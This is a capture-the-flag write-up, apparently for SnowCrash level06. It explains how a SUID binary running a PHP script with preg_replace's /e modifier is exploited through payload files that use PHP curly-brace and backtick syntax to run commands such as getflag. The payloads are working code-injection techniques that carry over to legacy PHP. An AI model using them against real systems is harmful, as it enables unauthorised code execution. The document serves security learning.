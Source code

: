 # foothold

I didn't know nothing abouth this user before hand, so let's see what it has to
offer... (o.O)

Oh, the home directory is full of stuff, a `level06` suid binary, and a
`level06.php` file... mmmmmm

In one of the previous levels I went crazy and reversed the binary, bet seeing
that this levels are clearly for people with 0 knowledge of cybersecurity,
I'm pretty sure a simple `strings` will do the trick.

And yeah, here's the `strings` output:
```raw
/usr/bin/php
/home/user/level06/level06.php
```

A SUID binary that executes the `level06.php` scripts... seems fun!

# exploit

And the `.php` is not well formated so it's difficuld to read, first let format
it.

```php
#!/usr/bin/php
<?php

function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

$r = x($argv[1], $argv[2]); print $r;

?>
```

Much better, it is just doing some `preg_replace()`, this function performs a
regular expression seach and replace, pretty easy right?

At the end we can see it calls the `x()` function with the first and second
parameters, but the second one is never used.

The first one is passed to `file_get_contents()`, so basically, this code is
opening the file we pass as parameter, and performing replaces of its content.

Since it is executing as the `flag06` user, I tried opening his `.bashrc` file:
```bash
./level06 /home/flag/flag06/.bashrc
```

And I noticed something at the end:
```raw
# ...
if ( -f /etc/bash_completion ) && ! shopt -oq posix; then
    . /etc/bash_completion
fi
alias='su -c "cd;/bin/bash"'
cat /home/flag/flag06/README.txt
cd
```

That `cat` seems **sus**.

```raw
level06@SnowCrash:~$ ./level06 /home/flag/flag06/README.txt
Don't forget to launch getflag !
```

But it was just a prank, thanks for the recordatory...

I will need to read the code, what a same, but it stills seems pretty obvious.

The first line is using a `/e`, that's the foothold, we can exploit that.

*Note preg_replace is deprecated since php 5.5 and removed since 7.0, but the machine is running 5.3 (php -v)*

The `e` modifier on the first `preg_replace` line allows us to use PHP
functions within the replace parameter (the second argument).

```bah
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

That second argument is the return value of the funcion `y()`, passsing the
second group as parameter `\\2`, let me try to explain this...

`\\2` (or `\2`, the first backslash is to escape the second) represents the
second captured group from the regular expression pattern `(\[x (.*)\])`.

Let's break it down:

- The regular expression pattern `(\[x (.*)\])` matches a specific pattern enclosed in square brackets `[x ...]`.
- Within the pattern, `(.*)` captures any characters that follow after the space following `[x`.
- The captured parts of the pattern are referred to as groups. In this case, there are two groups: the entire matched pattern is the first group, and the content captured by `(.*)` is the second group.

In the replacement code `"y(\"\\2\")"`, `\\2` refers to the content captured by
the second group. It is then used as an argument in a function call to `y()`.

This implies that the captured content is passed as a parameter to the `y()`
function.

So, in this scenario, the `preg_replace()` function replaces all occurrences of
the pattern `\[x ...]` with the result of the `y()` function called with the
content captured by `(.*)` as an argument.

So, if we do a file with the following format:
```raw
file.txt:
[x patata]
```

`\\2` will be
```raw
\\2:
patata
```


This means that when you do `"y(\"\\2\")"`, PHP will evaluate this as a call
to the `y()` function with the second captured group from the regex `(.*)`
as the argument.

Now, if the `$a` variable contains a string like `[x {some_code}]`,
`{some_code}` will be passed into the `y()` function.

The function `y()` will replace the "`.`" with "` x `", and the `@` with "` y`",
we must be remember that, maybe its important.

The next lines of the function `x()`, will just replace the `[` and `]` with
parentheses `(` and `)` respectively, does not seem important.

Let's make some poc:
```bash
echo -n '[x $z]' > /dev/shm/payload
./level06 /dev/shm/payload 'foo'
```

Cool, we are passin `$z` to `y()`, so the second argument gets printend back,
now we just neet to play with the second parameter, but we can't just do:
```bash
./level06 /dev/shm/payload 'system("getflag")'
```

Because or second parameter, is between quotes, and treated as a string:
`y(\"\\2\")`

How sad is that? Let's bypass those quotes.

In php you can only call variables inside a string, like we are doing now, this
what we are executing with the `[x $z]` payload:
```php
y("$z")
```

And its working, but we want to inject code, inside the quotes... I'm a little
lost in php, it's been a whole common core since I left pentesting, let's go
visit my [good old friend hacktricks php tricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#code-execution)

Hacktricks says there are three ways of executing code in php:
```raw
system("ls");
`ls`;
shell_exec("ls");
```

We can also take advantage of php complex curly syntax to execute a function
like this:
```raw
echo -n '[x {${phpinfo()}}]' > /dev/shm/payload
./level06 /dev/shm/payload
```

We can take advantage on that and call `system()`, using single quotes because
we are inside double quotes:
```bash
echo -n '[x {${system('getflag')}}]' > /dev/shm/payload
./level06 /dev/shm/payload
```

PHP undefined variables go brrrrrrrrrrrrrrrrrrr.

We could also use the backtick, which is identical to `shell_exec()`, maybe useful.

use `${}` to inject a command, and let's you forget about the quotes hell:
```bash
echo -n '[x ${`getflag`}]' > /dev/shm/payload
./level06 /dev/shm/payload
```

So that's all, another flag.

This one was tricky, not gonna lie, but seeing error outputs as explotables is
a crucial skill in pentesting (like forcing an error in a web serv to output
the traceback).
